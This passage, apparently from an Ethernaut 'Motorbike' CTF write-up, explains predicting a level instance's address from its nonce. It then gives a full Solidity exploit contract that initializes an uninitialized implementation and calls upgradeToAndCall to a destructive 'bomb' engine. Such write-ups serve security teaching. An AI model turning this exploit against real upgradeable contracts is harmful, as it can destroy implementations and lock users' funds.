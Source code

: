 ```solidity
        );
    }

    function addressFromLast20Bytes(bytes32 bytesValue) private pure returns (address) {
        return address(uint160(uint256(bytesValue)));
    }
}
```

Notice that the instance contract is deployed by the level contract, which means that we can calculate the instance address by using the `level_address` and the `nonce` with the RLP encoding. 

`ExploitContract.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {IEngine} from "../src/IEngine.sol";
import {AddressUtil} from "../src/AddressUtil.sol";

contract Exploit {
    using AddressUtil for address;

    address constant LEVEL_ADDRESS = 0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6;
    address constant ETHERNAUT_ADDRESS = 0xa3e7317E591D5A0F1c605be1b3aC4D2ae56104d6;
    uint256 constant NONCE_GUESS = 6381;
    address constant BOMB_ENGINE_ADDRESS = 0xA0e5F6ae6637230CCfE5d782647B673F23036763; 

    address public engine;
    address public motorbike;

    constructor() {
        solve();
    }

    function solve() public {
        _createLevelInstance();
        engine = LEVEL_ADDRESS.computeCreateAddress(NONCE_GUESS);
        motorbike = LEVEL_ADDRESS.computeCreateAddress(NONCE_GUESS + 1);
        _attack();
        // require(engine.isContract() == false, "Exploit failed");
    }

    function _createLevelInstance() private {
        // create a new Motorbike instance
        (bool success,) = ETHERNAUT_ADDRESS.call(abi.encodeWithSignature("createLevelInstance(address)", LEVEL_ADDRESS));
        require(success, "Failed to create level instance");
    }

    function _attack() private {
        IEngine(engine).initialize();
        IEngine(engine).upgradeToAndCall(BOMB_ENGINE_ADDRESS, "good_hack");
    }

    function submitLevelInstance() public {
        // submit the instance
        (bool success,) = ETHERNAUT_ADDRESS.call(abi.encodeWithSignature("submitLevelInstance(address)", motorbike));
        require(success, "Failed to submit level instance");
    }
}
```
